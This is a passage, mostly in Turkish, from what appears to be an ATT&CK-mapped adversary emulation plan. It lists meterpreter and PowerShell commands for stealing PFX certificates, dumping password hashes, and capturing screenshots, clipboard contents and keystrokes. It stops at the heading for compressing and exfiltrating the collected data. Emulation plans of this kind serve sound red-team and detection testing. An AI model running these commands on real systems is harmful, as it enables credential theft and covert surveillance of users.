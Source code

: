 Saldırgan PFX sertifikalarını çalar:

[meterpreter (PowerShell)\*] > `Get-PrivateKeys`

[meterpreter (PowerShell)\*] > `exit`

#### 6.3. OS Credential Dumping: Security Account Manager ([T1003](https://attack.mitre.org/versions/v6/techniques/T1003/) / [T1003.002](https://attack.mitre.org/techniques/T1003/002/))

Parola hash dump'ı alır:

[meterpreter\*] > `run post/windows/gather/credentials/credential_collector`

### Adım 7: Toplama ve Sızdırma

Saldırgan, ekran görüntülerini ([T1113](https://attack.mitre.org/techniques/T1113/)), kullanıcının panosundaki verileri ([T1115](https://attack.mitre.org/techniques/T1115/)) ve tuş vuruşlarını ([T1056](https://attack.mitre.org/versions/v6/techniques/T1056/) / [T1056.001](https://attack.mitre.org/techniques/T1056/001/)) toplar. Ardından saldırgan tarafından kontrol edilen bir WebDAV paylaşımına ([T1048](https://attack.mitre.org/versions/v6/techniques/T1048/) / [T1048](https://attack.mitre.org/techniques/T1048/003)) sızdırmadan önce sıkıştırılmış ve şifrelenmiş ([T1560](https://attack.mitre.org/versions/v6/techniques/T1560/) / [T1560.001](https://attack.mitre.org/techniques/T1560/001/)) dosyaları toplar ([T1005](https://attack.mitre.org/techniques/T1005/)).

**Prosedür:**

#### 7.A - User Monitoring ([T1113](https://attack.mitre.org/techniques/T1113/), [T1115](https://attack.mitre.org/techniques/T1115/), [T1056](https://attack.mitre.org/versions/v6/techniques/T1056/) / [T1056.001](https://attack.mitre.org/techniques/T1056/001/))

[meterpreter\*] > `execute -f powershell.exe -i -H`

[meterpreter (PowerShell)\*] > `cd "C:\Program Files\SysinternalsSuite"`

[meterpreter (PowerShell)\*] > `Move-Item .\psversion.txt psversion.ps1`

[meterpreter (PowerShell)\*] > `. .\psversion.ps1`

[meterpreter (PowerShell)\*] > `Invoke-ScreenCapture;Start-Sleep -Seconds 3;View-Job -JobName "Screenshot"`

[meterpreter (PowerShell)\*] > `Get-Clipboard`

[meterpreter (PowerShell)\*] > `Keystroke-Check`

[meterpreter (PowerShell)\*] > `Get-Keystrokes;Start-Sleep -Seconds 15;View-Job -JobName "Keystrokes"`

[meterpreter (PowerShell)\*] > `View-Job -JobName "Keystrokes"`

[meterpreter (PowerShell)\*] > `Remove-Job -Name "Keystrokes" -Force`

[meterpreter (PowerShell)\*] > `Remove-Job -Name "Screenshot" -Force`

#### 7.B - Compression and Exfiltration ([T1048](https://attack.mitre.org/techniques/T1048/), [T1002](https://attack.mitre.org/versions/v6/techniques/T1002/), [T1022](https://attack.mitre.org/versions/v6/techniques/T1022/) / [T1560.001](https://attack.mitre.org/techniques/T1560/001/))
